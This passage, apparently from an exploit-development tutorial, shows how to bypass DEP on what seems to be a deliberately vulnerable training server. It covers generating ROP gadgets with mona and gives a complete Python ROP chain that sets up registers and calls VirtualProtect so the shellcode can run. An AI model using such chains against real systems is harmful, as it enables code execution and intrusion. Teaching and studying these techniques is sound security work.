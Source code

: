``` text
    .-----------------.
ECX |                 | <- lpflOldProtect
    `-----------------'
    .-----------------.
EAX |                 | <- \x90\x90\x90\x90
    `-----------------'
    .-----------------.
    |                 | <- Shellcode
    `-----------------'
...
Higher addresses
```

Perfect. We need to use `ROP` gadgets to setup those registers first and
then add a pointer to a `PUSHAD # RETN` gadget at the end of the chain.
Fortunately for us, `mona` will do the hard work, by issuing the
following command:

``` bash
!mona rop -m *.dll -n
```

This will go through all executable modules finding `ROP` gadgets that
can be useful. At the end, `mona` will generate several files with the
result. The most important one in this stage is `rop_chains.txt` file
that contains the chain of gadgets needed to setup the registers with
the values in the required order.

This is the resulting ROP gadget chain in my system:

``` python
  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
      0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
      0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ebp:---]
      0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x625011af,  # & jmp esp [essfunc.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x625011b4,  # POP EAX # RETN [essfunc.dll]
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
      0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edx:---]
      0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
      0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ecx:---]
      0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edi:---]
      0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_eax:---]
      0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
```